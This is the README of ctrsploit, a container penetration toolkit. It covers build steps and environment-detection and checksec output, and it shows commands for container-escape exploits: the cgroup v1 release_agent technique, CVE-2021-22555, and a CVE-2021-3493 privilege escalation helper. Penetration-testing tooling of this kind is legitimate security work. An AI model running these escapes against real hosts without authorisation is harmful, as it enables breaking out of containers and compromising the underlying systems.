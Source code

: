 # ctrsploit: A penetration toolkit for container environment

[中文文档](./README-ZH.md)

ctrsploit [kənˈteɪnər splɔɪt]

## Why ctrsploit
see [here](https://github.com/ctrsploit/ctrsploit/discussions/11)

## Pre-Built Release

https://github.com/ctrsploit/ctrsploit/releases

## Build by yourself
### Build the target binary with Docker container toolkit
```bash
git clone https://github.com/ctrsploit/ctrsploit.git
cd ctrsploit
docker build . -t ctrsploit_builder
chmod +x build/build.sh  
# auto build
docker run -v $(pwd):/ctrsploit --rm ctrsploit_builder 
```
or you can do it manually
```
...
docker run -it -v $(pwd):/ctrsploit --rm ctrsploit_builder /bin/sh
build_ctrsploit
```

Note：To modify the target platform, modify the OS/arch parameter string in the build/build.sh file, e.g. -osarch="linux/amd64"

## Usage

### Quick-Start

```
wget -O ctrsploit https://github.com/ctrsploit/ctrsploit/releases/download/v0.4/ctrsploit_linux_amd64 && chmod +x ctrsploit
./ctrsploit --help
NAME:
   ctrsploit - A penetration toolkit for container environment

ctrsploit is a command line ... //TODO


USAGE:
   ctrsploit [global options] command [command options] [arguments...]

COMMANDS:
   auto, a     auto gathering information, and detect vuls, and exploit // TODO
   exploit, e  run a exploit
   env, e      gather information // TODO
   help, h     Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --lang value  language for the greeting (default: "english")
   --help, -h    show help (default: false)
```

### gather information

usage

```
root@ctr:/# ./ctrsploit env
NAME:
   ctrsploit env - gather information

USAGE:
   ctrsploit env command [command options] [arguments...]

COMMANDS:
   where, w        detect whether you are in the container, and which type of the container
   graphdriver, g  detect graphdriver type and extend information
   cgroups, c      gather cgroup information
   help, h         Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help (default: false)
```

where

```
root@ctr:/# ./ctrsploit  env  w
INFO[0000] ===========Docker=========
.dockerenv exists: ✔
rootfs contains 'docker': ✔
cgroup contains 'docker': ✘
the mount source of /etc/hosts contains 'docker': ✔
hostname match regex ^[0-9a-f]{12}$: ✔
=> is in docker: ✔ 
INFO[0000] ===========k8s=========
/var/run/secrets/kubernetes.io exists: ✘
hostname match k8s pattern: ✘
the mount source of /etc/hosts contains 'pods': ✘
cgroup contains 'kubepods': ✘
=> is in k8s: ✘ 
```

### run a exploit

```
root@2aa13a052102:/# ./ctrsploit e
NAME:
   ctrsploit exploit - run a exploit

USAGE:
   ctrsploit exploit command [command options] [arguments...]

COMMANDS:
   cgroupv1-release_agent, ra                       escape tech by using the notify_on_release of cgroup v1
   cgroupv1-release_agent-unknown_rootfs, ra3       escape tech by using the notify_on_release of cgroup v1 without known rootfs
   help, h                                          Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help (default: false)

```

eg. : escape by 'cgroupv1-release_agent' tech.

```
root@host # docker run -ti --rm --security-opt="apparmor=unconfined" --cap-add="sys_admin" busybox
root@ctr # wget -O ctrsploit https://github.com/ctrsploit/ctrsploit/releases/download/v0.4/ctrsploit_linux_amd64 && chmod +x ctrsploit
root@ctr # ./ctrsploit e ra -c "cat /etc/hostname"
```

### check security
Just execute `ctrsploit checksec` or standalone binary file `checksec` in the container.

```
[root@ctr ~]# /checksec_linux_amd64 
===========Seccomp=========
kernel supported: ✔
seccomp enabled in current container: ✘

===========Apparmor=========
Kernel Supported: ✘
Container Enabled: ✘

===========Cgroups=========
is cgroupv1: ✔
is cgroupv2: ✘

------sub systems-------
["perf_event" "memory" "net_cls" "cpuset" "blkio" "hugetlb" "files" "cpu" "cpuacct" "pids" "rdma" "freezer" "devices" "net_prio"]

--------top level subsystem----------
["rdma"
```

## Details

### env

| command | alias | description |
| --- | --- | --- |
| [where](./env/where) | w | detect whether you are in the container, and which type of the container |
| [graphdriver](./env/graphdriver) | g | detect graphdriver type and extend information |
| [cgroups](./env/cgroups) | c | gather cgroup information |
| [capability](./env/capability) | cap | show the capability of pid 1 and current process |
| [seccomp](./env/seccomp) | s | show the seccomp info |
| [apparmor](./env/apparmor) | a | show the apparmor info |

### exploit

| exploit | alias | description |
| --- | --- | --- |
| [cgroupv1-release_agent](./exploit/cgroupv1-release_agent) | ra | escape tech by using the notify_on_release of cgroup v1 |
| [cgroupv1-release_agent-unknown_rootfs](./exploit/cgroupv1-release_agent-unknown_rootfs) | ra3 | escape tech by using the notify_on_release of cgroup v1 without known rootfs |
| [cve-2021-22555_ubuntu18.04](./exploit/CVE-2021-22555_ubuntu18.04) | 22555 | escape tech by using the CVE-2021-22555 (ubuntu18.04) |

### helper
| helper | alias | description |
| --- | --- | --- |
| [cve-2021-3493](./helper/cve-2021-3493) | ubuntu-overlayfs-pe,3493 | Ubuntu OverlayFS Local Privesc |

### checksec
Just execute `ctrsploit checksec` or standalone binary file `checksec`.